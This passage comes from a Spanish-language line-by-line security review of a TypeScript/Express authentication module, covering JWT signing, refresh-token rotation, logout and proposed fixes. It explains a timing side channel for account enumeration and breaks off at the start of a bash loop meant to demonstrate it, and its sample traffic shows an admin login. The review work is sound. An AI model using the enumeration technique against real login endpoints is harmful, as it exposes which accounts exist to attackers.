    res.status(200).json({ data: { user: session.user, accessToken: session.accessToken } });
  } catch (err) {
    next(err);
  }
},
```

**Línea 35 — leer la cookie**

```ts
const token = req.cookies?.[REFRESH_COOKIE] as string | undefined;
```

`req.cookies` lo pobló `cookieParser()` (§5.5.3). El `?.` protege por si ese middleware no corrió.

⚠️ **La aserción `as string | undefined` es innecesaria pero inofensiva.** `req.cookies` está tipado como `any` en `@types/express`, así que la aserción solo documenta la intención.

**Línea 36 — `token ?? ''`**

Si no hay cookie, se pasa una cadena vacía al servicio, que la hasheará y no encontrará nada → 401.

💡 **Es más elegante que un `if (!token) throw` en el controlador**, porque mantiene la decisión en el servicio: el controlador no sabe qué es un token válido, solo transporta.

⚠️ **Pero desperdicia trabajo.** Hashear una cadena vacía y consultar la base para descubrir que no hay cookie es una consulta evitable. Con la validación de formato propuesta en §8.3, se rechazaría antes.

**Línea 37 — la cookie se REESTABLECE**

🔴 **Esta línea es la implementación visible de la ROTACIÓN de tokens.** Cada renovación produce un refresh token **nuevo**, y esta línea reemplaza la cookie. El token viejo queda revocado en la base (`auth.service.ts:90`).

**La rotación se analiza en §8.6.4.**

### 8.5.4. `logout` (líneas 44-52)

```ts
async logout(req: Request, res: Response, next: NextFunction): Promise<void> {
  try {
    await authService.logout(req.cookies?.[REFRESH_COOKIE] as string | undefined);
    res.clearCookie(REFRESH_COOKIE, { path: '/api/v1/auth' });
    res.status(204).send();
  } catch (err) {
    next(err);
  }
},
```

**Dos acciones complementarias, y ambas son necesarias:**

| Acción | Efecto | Si faltara |
|:--|:--|:--|
| `authService.logout(...)` | Marca `revoked = true` **en la base** | El token seguiría siendo válido 7 días. |
| `res.clearCookie(...)` | Le dice al navegador que la borre | El navegador seguiría enviando un token muerto en cada petición a `/auth`. |

🔴 **El `{ path: '/api/v1/auth' }` en `clearCookie` es OBLIGATORIO y es un error clásico olvidarlo.**

⚙️ **Cómo funciona `clearCookie`:** envía un `Set-Cookie` con el mismo nombre, valor vacío y una fecha de vencimiento en el pasado. **Pero el navegador identifica una cookie por la terna (nombre, dominio, path).** Si el `path` no coincide exactamente con el que se usó al establecerla, el navegador considera que son **cookies distintas**: crea y vence una cookie nueva en `/`, y **deja intacta** la original en `/api/v1/auth`.

**El síntoma sería desconcertante:** el logout "funciona" (204, el frontend redirige al login), pero la cookie sigue ahí. Como el servidor **también** revocó el token en la base, el sistema queda seguro igual — pero el navegador acumularía cookies muertas.

💡 **Que la revocación esté en la base es lo que hace que este error potencial no sea grave.** Defensa en profundidad otra vez: dos mecanismos independientes, y basta uno.

**`204 No Content`** — correcto (§2.7.3): no hay nada que devolver.

### 8.5.5. `me` (líneas 54-62)

```ts
async me(req: Request, res: Response, next: NextFunction): Promise<void> {
  try {
    // authenticate middleware guarantees req.user
    const user = await authService.getCurrentUser(req.user!.id);
    res.status(200).json({ data: user });
  } catch (err) {
    next(err);
  }
},
```

**El comentario documenta por qué el `!` es aceptable** (§6.4.3): la garantía viene de que la ruta declara `authenticate` (`auth.routes.ts:13`), no del sistema de tipos.

---

## 8.6. `auth.service.ts` línea por línea

Es donde vive toda la lógica. 109 líneas con las decisiones más delicadas del sistema.

### 8.6.1. Los tipos y `toPublicUser` (líneas 13-31)

```ts
13 export interface AuthenticatedSession {
14   user: PublicUser;
15   accessToken: string;
16   /** Opaque random token; only its SHA-256 is persisted. */
17   refreshToken: string;
18   refreshTokenExpiresAt: Date;
19 }
20
21 export interface PublicUser {
22   id: number;
23   name: string;
24   email: string;
25   role: Role;
26 }
27
28 /** Strips credentials — the API never returns hashes or internal fields. */
29 function toPublicUser(user: User): PublicUser {
30   return { id: user.id, name: user.name, email: user.email, role: user.role };
31 }
```

🔴 **`toPublicUser` es un patrón de seguridad fundamental, y merece llamarse por su nombre: es un DTO de salida.**

**El problema que resuelve.** La entidad `User` de Prisma tiene **nueve** campos:

```ts
{ id, name, email, passwordHash, role, isActive, deletedAt, createdAt, updatedAt }
```

Si el servicio devolviera el objeto tal cual, `res.json(user)` enviaría **el hash de la contraseña al navegador**. No sería catastrófico (bcrypt no es reversible), pero sería material para un ataque de fuerza bruta **sin límite de velocidad**: el atacante se lleva el hash y lo procesa en su GPU durante semanas.

💡 **`toPublicUser` construye un objeto NUEVO con solo cuatro campos.** No es un filtro por omisión: es una **lista blanca explícita**. Y esa distinción importa:

| Enfoque | Qué pasa si se agrega un campo `dni` a `User` |
|:--|:--|
| **Lista blanca** (elegido) | No se expone. Hay que agregarlo a mano si se quiere. ✅ |
| Lista negra (`delete user.passwordHash`) | **Se expone automáticamente.** 🔴 |

**El enfoque de lista blanca es seguro por defecto.** Es la misma filosofía que el recorte de Zod en la entrada (§7.5): definir explícitamente lo permitido, no lo prohibido.

**Se aplica en tres lugares** (líneas 49, 107, y a través de `issueSession`), y es el único camino por el que un `User` llega al cliente desde este módulo.

⚠️ **Pero es una convención, no una garantía.** Nada impide que otro módulo devuelva un `User` completo. **Habría que verificarlo en los 13 módulos** — y de hecho, cada módulo define sus propios tipos de salida (`vehicles.service.ts`, `drivers.service.ts`…), lo que sugiere que la disciplina se mantiene. El capítulo 9 lo verifica para `users`.

### 8.6.2. `signAccessToken` (líneas 33-37)

```ts
function signAccessToken(user: User): string {
  const payload: JwtPayload = { sub: user.id, role: user.role };
  const options: SignOptions = { expiresIn: env.ACCESS_TOKEN_TTL as SignOptions['expiresIn'] };
  return jwt.sign(payload, env.JWT_ACCESS_SECRET, options);
}
```

**Línea 34 — el payload tipado**

```ts
const payload: JwtPayload = { sub: user.id, role: user.role };
```

💡 **La anotación explícita `: JwtPayload` es valiosa:** garantiza que lo que se **firma** aquí coincide exactamente con lo que `authenticate` **espera** al verificar (§7.3.2). Si alguien agregara un campo al payload sin actualizar la interfaz, TypeScript lo señalaría. Es el mismo tipo en ambos extremos del viaje.

⚠️ **Pero la verificación sigue usando `as unknown as JwtPayload`** (`authenticate.ts:20`), así que la garantía se rompe en el otro extremo. La simetría es parcial.

**Línea 35 — la aserción del TTL**

```ts
const options: SignOptions = { expiresIn: env.ACCESS_TOKEN_TTL as SignOptions['expiresIn'] };
```

🔴 **Esta aserción existe por la validación débil de `env.ts:16`** (§5.3.2).

`SignOptions['expiresIn']` es un tipo unión de literales muy específico: `number | \`${number}\` | \`${number} days\` | \`${number}d\` | …`. `env.ACCESS_TOKEN_TTL` es un `string` cualquiera, incompatible con ese tipo, y la aserción lo fuerza.

**Es una mentira potencial con consecuencia grave.** Si `ACCESS_TOKEN_TTL` fuera `'quince minutos'`:

1. TypeScript no protesta (la aserción lo silencia).
2. La librería `ms` no puede parsearlo y devuelve `undefined`.
3. `jsonwebtoken` recibe `expiresIn: undefined` y **emite un token SIN campo `exp`**.
4. **Ese token NUNCA expira.**
5. `authenticate` lo verifica correctamente, porque sin `exp` no hay nada que comprobar.

🔴 **Un error de tipeo en una variable de entorno convertiría todos los access tokens en permanentes, sin ningún síntoma visible.** Es el fallo más silencioso y más grave que se detecta en el módulo. La corrección es la validación con expresión regular propuesta en §5.3.2 — **una línea**.

**Línea 36 — `jwt.sign(payload, secreto, opciones)`**

⚙️ **Qué hace internamente, paso a paso:**

1. Construye la cabecera: `{"alg":"HS256","typ":"JWT"}`.
2. Agrega `iat` (*issued at*) al payload automáticamente.
3. Calcula `exp = iat + ms(expiresIn)` y lo agrega.
4. Codifica cabecera y payload en base64url.
5. Calcula `HMAC-SHA256(cabecera + "." + payload, secreto)`.
6. Concatena las tres partes con puntos.

⚠️ **No se especifica `algorithm`.** El valor por defecto es HS256, que es el deseado. Declararlo explícitamente (`algorithm: 'HS256'`) sería más robusto, en simetría con el `algorithms` que falta en la verificación (§7.3.2).

⚠️ **Tampoco se usan `issuer` ni `audience`.** En un sistema con múltiples servicios, esos claims impiden que un token emitido para el servicio A sea aceptado por el servicio B. Con un solo backend, no aportan. Pero si alguna vez se agregara otro servicio, habría que recordarlo.

### 8.6.3. `issueSession` (líneas 39-54)

```ts
39 async function issueSession(user: User): Promise<AuthenticatedSession> {
40   // Refresh token is opaque (not a JWT): random 256-bit value, stored hashed.
41   // If the DB leaks, the tokens are still unusable.
42   const refreshToken = randomBytes(32).toString('hex');
43   const refreshTokenExpiresAt = new Date(
44     Date.now() + env.REFRESH_TOKEN_TTL_DAYS * 24 * 60 * 60 * 1000,
45   );
46   await authRepository.createRefreshToken(user.id, sha256(refreshToken), refreshTokenExpiresAt);
47
48   return {
49     user: toPublicUser(user),
50     accessToken: signAccessToken(user),
51     refreshToken,
52     refreshTokenExpiresAt,
53   };
54 }
```

**Línea 42 — la generación del token**

```ts
const refreshToken = randomBytes(32).toString('hex');
```

**32 bytes = 256 bits de entropía**, en hexadecimal = **64 caracteres**, que es exactamente `CHAR(64)`… no. 🔴 **Atención al detalle:** `refresh_tokens.token_hash` es `CHAR(64)` porque guarda el **SHA-256** del token, que también mide 64 caracteres hexadecimales. **Es una coincidencia**: el token en claro mide 64 caracteres y su hash también. No se almacena el token, solo el hash.

⚙️ **¿Qué tan improbable es adivinar un token de 256 bits?** El espacio es 2²⁵⁶ ≈ 10⁷⁷ — comparable al número estimado de átomos en el universo observable. Probando mil millones de tokens por segundo desde el nacimiento del universo, la probabilidad de acertar uno sigue siendo indistinguible de cero.

💡 **`randomBytes` usa el generador criptográficamente seguro del sistema operativo** (§6.5.3). Con `Math.random()` —cuyo estado interno se puede reconstruir observando unos pocos valores— un atacante que obtuviera algunos tokens podría **predecir los siguientes**. Es la diferencia entre "imposible" y "trivial".

**Líneas 43-45 — el cálculo del vencimiento**

```ts
const refreshTokenExpiresAt = new Date(
  Date.now() + env.REFRESH_TOKEN_TTL_DAYS * 24 * 60 * 60 * 1000,
);
```

`7 × 24 × 60 × 60 × 1000` = 604.800.000 ms = 7 días. Escrito como producto por legibilidad (§5.4).

💡 **Aritmética sobre milisegundos, no manipulación de componentes de fecha.** Es inmune a cambios de horario de verano, a fines de mes y a años bisiestos — precisamente porque no toca el calendario. Contrasta con `daysFromNow` del seed (§4.7.2), que sí manipula componentes porque necesita medianoche UTC. **Cada enfoque es correcto para su propósito.**

**Línea 46 — la persistencia**

```ts
await authRepository.createRefreshToken(user.id, sha256(refreshToken), refreshTokenExpiresAt);
```

🔴 **Se guarda `sha256(refreshToken)`, NUNCA el token.** Es la propiedad que hace que un volcado de la base sea inútil.

**Línea 51 — `refreshToken` (el valor en claro) SÍ se devuelve**

Porque el controlador lo necesita para ponerlo en la cookie. **Es el único momento en que el token en claro existe en el servidor**, y vive solo en memoria durante la petición.

🔴 **Lo que falta y es una deuda operativa concreta: NADIE borra los refresh tokens vencidos.**

**El crecimiento:**

- Cada login crea una fila.
- **Cada renovación crea otra** (por la rotación).
- Con un access token de 15 minutos, un usuario activo 8 horas genera **32 filas por día**.
- Diez usuarios × 250 días laborables = **80.000 filas al año**, y creciendo.

Ninguna se borra jamás. La tabla acumula tokens revocados y vencidos indefinidamente.

**Las tres soluciones posibles:**

```sql
-- 1. Tarea programada de limpieza (la más simple)
DELETE FROM refresh_tokens WHERE expires_at < NOW() OR revoked = TRUE;
```

```ts
// 2. Limpieza oportunista: al crear un token, borrar los vencidos de ese usuario
await prisma.refreshToken.deleteMany({
  where: { userId, OR: [{ expiresAt: { lt: new Date() } }, { revoked: true }] },
});
```

```sql
-- 3. Evento programado de MySQL
CREATE EVENT limpiar_tokens ON SCHEDULE EVERY 1 DAY
DO DELETE FROM refresh_tokens WHERE expires_at < NOW() - INTERVAL 30 DAY;
```

💡 **La opción 2 es la más elegante para este proyecto** porque no requiere infraestructura nueva (recuérdese que **no hay tareas programadas**, §4.7.5) y el costo se distribuye: una operación de borrado pequeña por cada login.

### 8.6.4. `login` (líneas 57-71)

```ts
57 async login(dto: LoginDto): Promise<AuthenticatedSession> {
58   const user = await usersRepository.findByEmail(dto.email);
59
60   // Same error for "not found", "inactive" and "wrong password":
61   // never reveal which credential failed (account enumeration).
62   if (!user || !user.isActive) {
63     throw new UnauthorizedError('Invalid credentials');
64   }
65   const passwordMatches = await bcrypt.compare(dto.password, user.passwordHash);
66   if (!passwordMatches) {
67     throw new UnauthorizedError('Invalid credentials');
68   }
69
70   return issueSession(user);
71 }
```

**Línea 58 — la búsqueda**

`usersRepository.findByEmail` filtra `deletedAt: null` (verificado en `users.repository.ts:33`). **Un usuario dado de baja no puede iniciar sesión**, y la comprobación está en el repositorio por construcción (§2.3.2).

💡 **Nótese que el servicio de `auth` usa el repositorio de `users`.** Es una dependencia entre módulos legítima: `auth` necesita leer usuarios, y la forma correcta de hacerlo es a través del repositorio de ese módulo, no accediendo a Prisma directamente. **Respeta la arquitectura en capas cruzando módulos por la capa correcta.**

**Líneas 60-64 — el mensaje único, y el razonamiento completo**

🔴 **La misma respuesta para tres situaciones distintas es una decisión de seguridad deliberada.**

**El ataque que previene se llama *enumeración de cuentas*:**



**Por qué la enumeración importa aunque el atacante no obtenga acceso:**

1. Obtiene una **lista de emails válidos** de la organización → material para phishing dirigido.
2. Puede concentrar la fuerza bruta **solo en cuentas reales**, multiplicando su eficiencia.
3. En sistemas donde el email es un dato sensible (una app de salud, una plataforma de denuncias), la sola confirmación de que alguien tiene cuenta ya es una filtración.

**El proyecto lo hace bien**, y el comentario documenta la intención.

🔴 **PERO hay un canal lateral de temporización que el mensaje idéntico no cierra.**

Miremos los caminos:

| Caso | Qué se ejecuta | Tiempo aproximado |
|:--|:--|--:|
| **Usuario no existe** | Una consulta a la base, y `return` | **~5 ms** |
| **Contraseña incorrecta** | Consulta **+ `bcrypt.compare`** | **~105 ms** |

💡 **La diferencia de 100 ms es medible y consistente.** Un atacante que cronometre las respuestas distingue perfectamente ambos casos, **sin importar que el mensaje sea idéntico**. La protección se anula por completo.

**Es un ataque real y práctico:** con 20 mediciones por email se obtiene una señal clarísima, incluso con ruido de red.

**La corrección estándar es ejecutar bcrypt SIEMPRE**, contra un hash señuelo:

```ts
// — mejora propuesta —
// Hash de una contraseña arbitraria, calculado una vez al cargar el módulo.
const HASH_SEÑUELO = '$2b$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy';

async login(dto: LoginDto): Promise<AuthenticatedSession> {
  const user = await usersRepository.findByEmail(dto.email);

  // Se ejecuta bcrypt SIEMPRE, para que el tiempo de respuesta no revele
  // si la cuenta existe (canal lateral de temporización).
  const hash = user?.passwordHash ?? HASH_SEÑUELO;
  const passwordMatches = await bcrypt.compare(dto.password, hash);

  if (!user || !user.isActive || !passwordMatches) {
    throw new UnauthorizedError('Invalid credentials');
  }
  return issueSession(user);
}
```

**Ahora los tres caminos tardan lo mismo**, y el mensaje idéntico cumple realmente su función.

⚠️ **Y hay un tercer canal, más sutil: el limitador de velocidad.** `loginRateLimiter` cuenta por IP, no por cuenta. Un atacante que sepa que agotó sus 10 intentos igual puede medir tiempos en los primeros 10. Limitar también por cuenta (§7.7.1) reduciría la superficie.

**Línea 65 — `bcrypt.compare`**

⚙️ **Cómo funciona:** el hash almacenado **contiene la sal y el factor de coste** (§3.4.1). `compare` los extrae, hashea la contraseña candidata con esos mismos parámetros, y compara los resultados **en tiempo constante** (para no filtrar información byte a byte).

💡 **Por eso cambiar `BCRYPT_ROUNDS` no invalida las contraseñas existentes:** cada hash recuerda con qué coste se generó, y `compare` lo respeta. Los usuarios nuevos usarían el coste nuevo, los viejos seguirían funcionando con el suyo.

**Línea 70 — `return issueSession(user)`**

Sin `await`. Correcto: la función es `async`, así que devolver una promesa desde ella es equivalente a esperarla. Ahorra un ciclo de microtarea (irrelevante en rendimiento, pero es el idioma correcto).

🔴 **Lo que NO hace `login` y debería: auditar.**

`grep -rn "auditLog" backend/src/modules/auth/` **no devuelve nada**. **Los inicios de sesión no se registran en `audit_logs`.**

**Lo que eso significa en la práctica:**

- No se puede responder *"¿quién entró al sistema el martes a las 3 de la mañana?"*.
- No se detecta un patrón de accesos anómalos.
- Los **intentos fallidos** tampoco quedan registrados: no hay forma de saber si alguien está atacando el login.
- La auditoría del sistema es completa para las operaciones de negocio y **ciega para el acceso**.

💡 **Es una omisión llamativa** porque el sistema tiene una infraestructura de auditoría completa (`audit_logs` con `previous_data`/`new_data`) y el módulo más sensible no la usa. Registrar `LOGIN` y `LOGIN_FAILED` sería agregar dos llamadas.

⚠️ **Con un matiz importante:** auditar `LOGIN_FAILED` requiere cuidado, porque `audit_logs.user_id` es `NOT NULL` — y en un intento fallido puede no haber usuario identificado. Habría que hacer la columna nulable o registrar los fallos en otra tabla.

### 8.6.5. `refresh` (líneas 73-92) — el corazón del módulo

```ts
73 /**
74  * Refresh token ROTATION: each refresh revokes the used token and issues
75  * a new pair. A replayed (already-revoked) token is treated as theft and
76  * revokes every session of the user.
77  */
78 async refresh(refreshToken: string): Promise<AuthenticatedSession> {
79   const stored = await authRepository.findValidByHash(sha256(refreshToken));
80   if (!stored) {
81     throw new UnauthorizedError('Invalid or expired refresh token');
82   }
83
84   const user = await usersRepository.findById(stored.userId);
85   if (!user || !user.isActive) {
86     await authRepository.revokeAllForUser(stored.userId);
87     throw new UnauthorizedError('Invalid or expired refresh token');
88   }
89
90   await authRepository.revoke(stored.id);
91   return issueSession(user);
92 }
```

#### Qué es la rotación de refresh tokens

**Sin rotación**, el mismo refresh token sirve 7 días. Si alguien lo roba, tiene acceso 7 días **y el usuario legítimo nunca se entera**: ambos usan el mismo token en paralelo, sin conflicto.

**Con rotación**, cada uso **consume** el token y produce uno nuevo. Y eso habilita una detección elegante:



💡 **La detección funciona porque, con rotación, un token revocado que reaparece es una señal.** Solo puede ocurrir si dos partes tenían el mismo token — es decir, si hubo copia.

#### 🔴 El hallazgo más importante del capítulo: el comentario describe algo que el código NO hace

El comentario de la línea 75-76 afirma:

> *"A replayed (already-revoked) token is treated as theft and revokes every session of the user."*

**Rastreemos qué ocurre realmente con un token revocado reenviado:**

**Paso 1** — `auth.repository.ts:10-14`:

```ts
findValidByHash(tokenHash: string): Promise<RefreshToken | null> {
  return prisma.refreshToken.findFirst({
    where: { tokenHash, revoked: false, expiresAt: { gt: new Date() } },
  });
}
```

🔴 **La consulta filtra `revoked: false`.** Un token revocado **no se encuentra**: devuelve `null`.

**Paso 2** — `auth.service.ts:79-82`:

```ts
const stored = await authRepository.findValidByHash(sha256(refreshToken));
if (!stored) {
  throw new UnauthorizedError('Invalid or expired refresh token');
}
```

Con `stored === null`, se lanza el error y **la función termina ahí**.

**Paso 3** — la línea 86 (`revokeAllForUser`) **nunca se alcanza en ese escenario**. Solo se ejecuta cuando el token **es válido** pero el usuario está inactivo o borrado.

**Conclusión, verificada línea por línea:**

| Escenario | Comportamiento real |
|:--|:--|
| Token revocado reenviado | ❌ **401 y nada más.** No se detecta robo. No se revoca nada. |
| Token inexistente | 401 |
| Token vencido | 401 |
| Token válido, usuario inactivo | ✅ Se revocan todas las sesiones |

🔴 **El código NO puede distinguir "token revocado" de "token que nunca existió", porque la consulta descarta ambos por igual.** La detección de robo que el comentario promete **no está implementada**.

**Cómo implementarla de verdad:**

```ts
// — corrección propuesta —

// 1. En el repositorio: buscar SIN filtrar por revoked
findByHash(tokenHash: string): Promise<RefreshToken | null> {
  return prisma.refreshToken.findFirst({ where: { tokenHash } });
},

// 2. En el servicio: distinguir los tres casos
async refresh(refreshToken: string): Promise<AuthenticatedSession> {
  const stored = await authRepository.findByHash(sha256(refreshToken));

  if (!stored) {
    throw new UnauthorizedError('Invalid or expired refresh token');
  }

  // 🚨 Reenvío de un token ya consumido → indicio de robo
  if (stored.revoked) {
    await authRepository.revokeAllForUser(stored.userId);
    // (y aquí correspondería auditar el evento y/o notificar al usuario)
    throw new UnauthorizedError('Invalid or expired refresh token');
  }

  if (stored.expiresAt <= new Date()) {
    throw new UnauthorizedError('Invalid or expired refresh token');
  }

  // … el resto igual
}
```

💡 **Este es exactamente el tipo de hallazgo que justifica leer el código línea por línea en vez de confiar en los comentarios.** El comentario describe la intención del diseño; el código implementa solo una parte. Alguien que audite el sistema leyendo comentarios concluiría que hay detección de robo de tokens, y no la hay.

⚠️ **Y hay un efecto secundario del diseño actual que agrava el problema:** el frontend deduplica los refresh concurrentes (`api/axios.ts:48`, §2.3.5). **Esa deduplicación existe precisamente porque, sin ella, dos peticiones simultáneas usarían el mismo token y la segunda fallaría.** Si la detección de robo estuviera implementada, un fallo de esa deduplicación (o dos pestañas del navegador renovando a la vez) **expulsaría al usuario de todas sus sesiones**.

**Es un problema conocido de la rotación de tokens**, y la solución estándar es una **ventana de gracia**: aceptar el token revocado durante unos segundos después de su rotación, y solo tratarlo como robo si reaparece más tarde. Implementarlo requiere una columna `revoked_at` y comparar contra ella.

💡 **Es decir: implementar bien la detección de robo es más complejo de lo que el comentario sugiere.** No basta con quitar el filtro `revoked: false`.

#### Las otras decisiones de `refresh`

**Líneas 84-88 — la verificación del usuario**

```ts
const user = await usersRepository.findById(stored.userId);
if (!user || !user.isActive) {
  await authRepository.revokeAllForUser(stored.userId);
  throw new UnauthorizedError('Invalid or expired refresh token');
}
```

🔴 **Esta es la contrapartida del diseño sin estado de `authenticate`** (§7.3.3). El access token no consulta la base, pero **el refresh sí**. Consecuencia práctica:

| Momento | Estado del usuario dado de baja |
|:--|:--|
| t=0 | Se da de baja. Su access token sigue siendo válido. |
| t ≤ 15 min | ⚠️ Sigue operando con el token viejo. |
| t = 15 min | El token expira. El frontend llama a `/refresh`. |
| t = 15 min + ε | 🛑 **`refresh` detecta `!isActive` → revoca TODAS sus sesiones → 401 → expulsado.** |

💡 **El refresh es el punto de reconciliación entre la sesión y el estado real del usuario.** Es lo que acota la ventana de exposición a exactamente el TTL del access token.

**`revokeAllForUser` aquí es correcto y generoso:** si el usuario ya no es válido, ninguna de sus sesiones lo es. Revocar todas evita que otro dispositivo suyo siga operando hasta que su propio token venza.

**Línea 90 — la rotación efectiva**

```ts
await authRepository.revoke(stored.id);
return issueSession(user);
```

Revocar el viejo, emitir el nuevo.

🔴 **Estas dos operaciones NO están en una transacción, y eso es un hueco real.**

**El escenario de fallo:**



**El impacto es bajo** (el usuario vuelve a entrar) pero es una **inconsistencia evitable**. La corrección:

```ts
// — mejora propuesta —
return prisma.$transaction(async (tx) => {
  await authRepository.revoke(stored.id, tx);
  return issueSession(user, tx);
});
```

⚠️ **Requeriría agregar el parámetro `db: DbClient = prisma` a los métodos de `authRepository`**, que es el patrón que usan todos los demás repositorios del proyecto (§2.3.2) y que **este no tiene**. Es una inconsistencia con el resto del código.

⚠️ **El orden actual mitiga parcialmente el problema:** revocar primero significa que, si falla la creación, el usuario pierde la sesión (molesto pero seguro). Si se creara primero y fallara la revocación, quedarían **dos tokens válidos** — peor desde el punto de vista de seguridad. **El orden elegido es el correcto dado que no hay transacción.**

### 8.6.6. `logout` (líneas 94-100)

```ts
async logout(refreshToken: string | undefined): Promise<void> {
  if (!refreshToken) return; // idempotent: logging out twice is not an error
  const stored = await authRepository.findValidByHash(sha256(refreshToken));
  if (stored) {
    await authRepository.revoke(stored.id);
  }
}
```

**El comentario declara la propiedad clave: idempotencia** (§1.2.3).

💡 **Cerrar sesión dos veces no es un error.** Si el usuario hace clic dos veces, o si su sesión ya expiró, el segundo logout devuelve 204 igual. Devolver un error sería técnicamente defendible y prácticamente inútil: el estado deseado (sesión cerrada) ya se alcanzó.

**El patrón de guarda temprana** (`if (!refreshToken) return`) evita anidar todo el cuerpo en un `if`. Es más legible y ahorra la consulta a la base cuando no hay nada que buscar.

🔴 **`logout` cierra UNA sesión, no todas.** Si el usuario tiene sesión abierta en su computadora y en su teléfono, cerrar en una no afecta a la otra.

**¿Es correcto?** **Sí, es el comportamiento esperado.** Cerrar sesión en el trabajo no debería desconectar el teléfono personal.

⚠️ **Pero falta la opción explícita de "cerrar todas las sesiones"**, que es una funcionalidad de seguridad estándar (la tienen Google, GitHub, los bancos). El método `revokeAllForUser` **ya existe** en el repositorio y solo se usa internamente. Exponerlo sería un endpoint `POST /auth/logout-all` de cinco líneas.

💡 **Es especialmente relevante en este sistema porque no hay detección de robo de tokens** (§8.6.5). Un usuario que sospecha que le robaron la sesión no tiene forma de invalidarla desde otro dispositivo.

⚠️ **`logout` usa `findValidByHash`**, que filtra `revoked: false`. Un token ya revocado no se encuentra y no pasa nada. Es correcto (no hay nada que revocar) pero significa que **el logout tampoco puede detectar el reenvío de un token revocado** — la misma limitación de §8.6.5.

### 8.6.7. `getCurrentUser` (líneas 102-108)

```ts
async getCurrentUser(userId: number): Promise<PublicUser> {
  const user = await usersRepository.findById(userId);
  if (!user || !user.isActive) {
    throw new UnauthorizedError('User no longer valid');
  }
  return toPublicUser(user);
}
```

**Verifica `isActive` en cada llamada.** Es el segundo punto de reconciliación (junto con `refresh`) entre el token y la realidad.

💡 **Y por eso el frontend lo llama al arrancar** (`App.tsx:50`): además de obtener el nombre y el email, verifica que la sesión rehidratada corresponda a un usuario todavía válido.

**El mensaje es distinto** (`'User no longer valid'` en vez de `'Invalid credentials'`).

⚠️ **Es un pequeño canal de información:** revela que el token era válido pero el usuario ya no lo es. **En este caso es aceptable** porque quien llega hasta acá **ya tiene un access token válido** — es decir, ya pasó la autenticación. No hay enumeración posible: solo puede aprender algo sobre su propia cuenta.

---

## 8.7. Flujo interno

### 8.7.1. Login completo, de extremo a extremo

```mermaid
sequenceDiagram
    autonumber
    participant N as 🌐 Navegador
    participant RL as rateLimiter
    participant V as validate
    participant C as authController
    participant S as authService
    participant UR as usersRepository
    participant B as bcrypt
    participant J as jsonwebtoken
    participant AR as authRepository
    participant DB as 🐬 MySQL

    N->>RL: POST /auth/login {email, password}
    RL->>RL: ¿≤ 10 intentos en 15 min desde esta IP?
    RL->>V: ✅
    V->>V: safeParse(loginSchema) + REEMPLAZO
    V->>C: req.body tipado
    C->>S: login(dto)
    S->>UR: findByEmail(email)
    UR->>DB: SELECT * FROM users WHERE email=? AND deleted_at IS NULL
    DB-->>UR: 1 fila
    UR-->>S: User
    S->>S: ¿existe y isActive?
    S->>B: compare(password, passwordHash)
    Note over B: ~100 ms de CPU<br/>(bloquea el event loop)
    B-->>S: true
    S->>S: issueSession(user)
    S->>S: randomBytes(32) → 64 hex
    S->>AR: createRefreshToken(userId, sha256(token), expiresAt)
    AR->>DB: INSERT INTO refresh_tokens (user_id, token_hash, expires_at)
    DB-->>AR: ✅
    S->>J: sign({sub, role}, JWT_ACCESS_SECRET, {expiresIn:'15m'})
    J-->>S: eyJhbGci…
    S-->>C: {user, accessToken, refreshToken, refreshTokenExpiresAt}
    C->>C: setRefreshCookie(res, refreshToken, expiresAt)
    C-->>N: 200 {data:{user, accessToken}}<br/>Set-Cookie: refresh_token=…; HttpOnly; SameSite=Strict; Path=/api/v1/auth
    Note over N: accessToken → memoria (Zustand)<br/>refresh_token → cookie (inaccesible a JS)
```

### 8.7.2. El ciclo de vida completo de una sesión



### 8.7.3. La renovación transparente, vista desde ambos lados



💡 **Cinco peticiones a la base para lo que el usuario percibe como "cargar una lista".** Es el costo de la rotación de tokens. Con un access token de 15 minutos y sesiones de 8 horas, ocurre unas 32 veces por día por usuario — perfectamente asumible.

---

## 8.8. Ejemplos

### Ejemplo 1 — Login exitoso, tráfico real

**Petición:**

```http
POST /api/v1/auth/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json
Origin: http://localhost:5173

{"email":"admin@empresa.com","password":"Admin1234!"}
```

**Respuesta:**

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: refresh_token=a3f8b2c1d4e5f6...(64 hex); Path=/api/v1/auth; Expires=Mon, 10 Aug 2026 18:42:11 GMT; HttpOnly; SameSite=Strict
Access-Control-Allow-Origin: http://localhost:5173
Access-Control-Allow-Credentials: true
RateLimit: limit=10, remaining=9, reset=900

{"data":{"user":{"id":1,"name":"Administrador General","email":"admin@empresa.com","role":"ADMIN"},"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOjEsInJvbGUiOiJBRE1JTiIsImlhdCI6MTc1NDIzNDUzMSwiZXhwIjoxNzU0MjM1NDMxfQ.xxxxx"}}
```

**Cinco cosas para verificar en esta respuesta:**

1. ✅ `refreshToken` **no aparece** en el cuerpo — solo en `Set-Cookie`.
2. ✅ `passwordHash` **no aparece** — `toPublicUser` hizo su trabajo.
3. ✅ La cookie tiene `HttpOnly`, `SameSite=Strict` y `Path=/api/v1/auth`.
4. ⚠️ **No tiene `Secure`** — correcto en desarrollo (`isProduction === false`).
5. ✅ `RateLimit` informa cuántos intentos quedan.

**El payload del token, decodificado:**

```json
{ "sub": 1, "role": "ADMIN", "iat": 1754234531, "exp": 1754235431 }
```

`1754235431 − 1754234531 = 900` segundos = **15 minutos**. ✅

### Ejemplo 2 — Los cuatro caminos de fallo del login

| Entrada | Código | Cuerpo | Rastreo |
|:--|:-:|:--|:--|
| `{"email":"admin","password":"x"}` | 400 | `{"error":{"code":"VALIDATION_ERROR","details":[{"path":"email","message":"Invalid email"}]}}` | `validate` → `ZodError` → `error-handler.ts:26` |
| `{"email":"noexiste@x.com","password":"x"}` | 401 | `{"error":{"code":"UNAUTHORIZED","message":"Invalid credentials"}}` | `auth.service.ts:62` |
| `{"email":"admin@empresa.com","password":"mal"}` | 401 | **idéntico al anterior** | `auth.service.ts:66` |
| 11.º intento en 15 min | 429 | `{"error":{"code":"TOO_MANY_REQUESTS",...}}` | `rate-limiter.ts:13` |

🔴 **Las filas 2 y 3 producen cuerpos idénticos** — la protección contra enumeración funcionando. **Pero midiendo el tiempo se distinguen** (§8.6.4): fila 2 ≈ 5 ms, fila 3 ≈ 105 ms.

### Ejemplo 3 — Demostrar el canal lateral de temporización

```bash
# — ejercicio de auditoría de seguridad —
echo "Cuenta INEXISTENTE:"
for i in $(seq 1 5); do
